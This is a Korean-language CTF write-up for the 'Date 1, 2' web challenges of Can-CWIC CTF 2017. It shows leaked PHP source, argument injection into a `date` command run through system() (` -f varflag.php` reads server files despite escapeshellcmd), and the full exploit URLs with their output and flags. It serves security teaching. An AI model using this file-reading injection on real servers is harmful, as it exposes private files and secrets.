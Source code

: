 # [WEB] Can-CWIC CTF 2017- Date 1, 2

# Description
### date 1
Never be late to a romantic appointment again!

[The Date of Today][webpage]

Can you find the easy flag?

### date 2
Can you find the real flag?

[The Date of Today][webpage]

# Analysis
date1, 2는 같은 페이지를 대상으로 한다.
페이지에 접속하면 뭔가 굉장히 많이본 리눅스 명령어인 date의 사용 설명서와 이를 실행하는 것 같다.

http://159.203.38.169:5675/.index.php.swp 에서 vi의 백업 파일을 얻을 수 있었다.

이를 통해 얻은 소스 중 php부분을 보면 다음과 같다.
```php
<!-- 생략 -->
<h1>
<?php
$cmd = 'date';
$fmt = isset($_GET['fmt'])?$_GET['fmt']:"";
if (isset($_GET['rfc'])) {
	$cmd = $cmd . ' -R';
	$rfcx = ' checked';
}
if ($fmt != "") {
	$cmd = $cmd . ' +' . $fmt;
	$fmtx = ' value="' . $fmt . '"';

}
$cmd = escapeshellcmd($cmd);
$res = system($cmd . " 2>&1");

include 'varflag.php';
if ($res === $date && strpos($fmt, 'easter') != false) {
	echo "<b style='color:red'>$flag</b>";
}
?>
</h1>
	<br>
	<form action="index.php" method="GET">
	<div class="form-group">
	  <label>Format : </label>
	  <input type="text" name="fmt" class="form-control"<?=$fmtx?>></input>
	  </div>
	<div class="checkbox">
	<label><input type="checkbox" name="rfc"<?=$rfcx?>>RFC 2822</label>
	  </div>


	  <input type="submit" class="pull-right btn btn-primary"
	    value="Update"></input>
	</form>
	<br>
<!-- 생략 -->
```
system 함수를 통해 date 명령어를 실행한다.
또한 varflag.php안에 $flag변수가 있는 것으로 추측된다.

# Exploit
Date 1. Command Injection
Date 2. Date Command

## Date 1. Command Injection
system 을 사용하기는 하나 escapeshellcmd에 의해 command injection이 불가능하다.
> 참조 : http://php.net/manual/en/function.escapeshellcmd.php

그러나 date의 옵션 중 -f 옵션을 이용해 파일을 읽을 수 있다.

fmt파라미터로 ` -f varflag.php`를 요청하면 다름과 같은 페이지 정보를 얻을 수 있다.
```html
<!-- http://159.203.38.169:5675/?fmt=%20-f%20varflag.php -->
    <div class="panel panel-default centered">
      <div class="panel-heading"><h1>The Date of Today</h1></div>
      <div class="panel-body">
<h1>
date: invalid date '<?php'
date: invalid date '$date = "Sunday April 1st 2018. 2018-04-01";'
date: invalid date '$easy_flag = "FLAG{Want Love? Don\'t Date!}";'

date: invalid date '?>'
</h1>
	<br>
	<form action="index.php" method="GET">
	<div class="form-group">
	  <label>Format : </label>
	  <input type="text" name="fmt" class="form-control" value=" -f varflag.php"></input>
	  </div>
	<div class="checkbox">
	<label><input type="checkbox" name="rfc">RFC 2822</label>
	  </div>


	  <input type="submit" class="pull-right btn btn-primary"
	    value="Update"></input>
	</form>
	<br>
```

varflag.php안에 `$easy_flag = "FLAG{Want Love? Don\'t Date!}"`가 존재하였다.

**FLAG{Want Love? Don\'t Date!}**

## Date 2. Date Command
fmt 파라미터로 ` -f index.php`를 요청하면 처음에 얻은 `.index.php.swp`이랑 소스가 조금 다른것을 확인할 수 있다.
```php
# .index.php.swp
$cmd = escapeshellcmd($cmd);
$res = system($cmd . " 2>&1");

include 'varflag.php';
if ($res === $date && strpos($fmt, 'easter') != false) {
	echo "<b style='color:red'>$flag</b>";
}

# index.php
$cmd = escapeshellcmd($cmd);
$res = system("timeout 5s " . $cmd . " 2>&1");

include 'varflag.php';
if ($res === $date && (strpos($fmt, 'easter') != false || preg_match('/[0-9]/', $fmt) == 0)) {'
    echo "<b style='color:red'>$flag</b>";
}
```
system안에 timeout 명령어가 추가한건 /var/log/apache2/access.log와 같은 파일을 읽는 것을 방지하며, 서버 부하를 줄이기 위함인 것 같다.
그리고 if문 또한 변경되었는데 system 명령어의 결과 값이 위에서 찾은 varflag.php의 $date인 `Sunday April 1st 2018. 2018-04-01`이며, easter 문자열과 숫자가 들어가면 안된다.

date의 FORMAT을 `date +"%A %B %-dst %Y. %Y-%m-%d"`을 통해 `Tuesday October 10st 2017. 2017-10-10`의 형태로 바꿔준다.

또한 date의 옵션 중 `--date`를 통해 원하는 날짜로 변경을 한다.
> yesterday, last month, next year

이를 이용해 `fmt="%A %B %-dst %Y. %Y-%m-%d" --date "last month last month last month last month last month last month yesterday yesterday yesterday yesterday yesterday yesterday yesterday yesterday yesterday next year"`를 서버에 요청하면 플래그를 얻을 수 있다.
```
# http://159.203.38.169:5675/?fmt=%22%A%20%B%20%-dst%20%Y.%20%Y-%m-%d%22%20--date%20%22last%20month%20last%20month%20last%20month%20last%20month%20last%20month%20last%20month%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20next%20year%22

Sunday April 1st 2018. 2018-04-01 
FLAG{EASTER2018ISAFOOLSDAY}
```


**FLAG{EASTER2018ISAFOOLSDAY}**

[webpage]:http://159.203.38.169:5675/

